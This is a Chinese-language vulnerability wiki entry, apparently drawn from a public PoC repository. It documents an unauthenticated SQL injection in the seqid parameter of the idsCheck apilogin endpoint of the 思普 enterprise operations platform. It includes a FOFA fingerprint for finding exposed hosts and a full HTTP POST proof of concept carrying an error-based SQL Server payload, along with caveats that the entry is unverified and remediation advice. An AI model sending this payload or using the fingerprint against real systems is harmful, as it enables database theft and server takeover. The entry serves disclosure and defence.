

# 思普企业运营管理平台 idsCheck apilogin seqid SQL注入

## 条目说明

- 对象与具体问题：思普企业运营管理平台；idsCheck apilogin seqid SQL注入
- 版本、配置及部署条件：SQL Server；datasource EOMP1实例条件，版本未知
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 真实端点idsCheck与p=apilogin操作应联合命名，seqid为注入点
- 类型转换报错标记只有截图，无文字响应；EOMP1数据源不保证每部署存在
- 在野已知/写木马缺独立依据，需DB权限条件及修复版本
- HTTP围栏缺失，FOFA元数据残缺

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

思普企业运营管理平台 apilogin 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

思普企业运营管理平台

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：icon_hash="-403479360"

POC/EXP：

```http
POST /IdsCenter/idsCheck?p=apilogin HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
X-Requested-With: XMLHttpRequest

seqid=1%27+AND+6884+IN+%28SELECT+%28CHAR%28113%29%2BCHAR%28106%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28113%29%2B%28SELECT+%28CASE+WHEN+%286884%3D6884%29+THEN+CHAR%2849%29+ELSE+CHAR%2848%29+END%29%29%2BCHAR%28113%29%2BCHAR%28112%29%2BCHAR%28113%29%2BCHAR%28113%29%2BCHAR%28113%29%29%29--+cxaC&datasource=EOMP1
```





## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
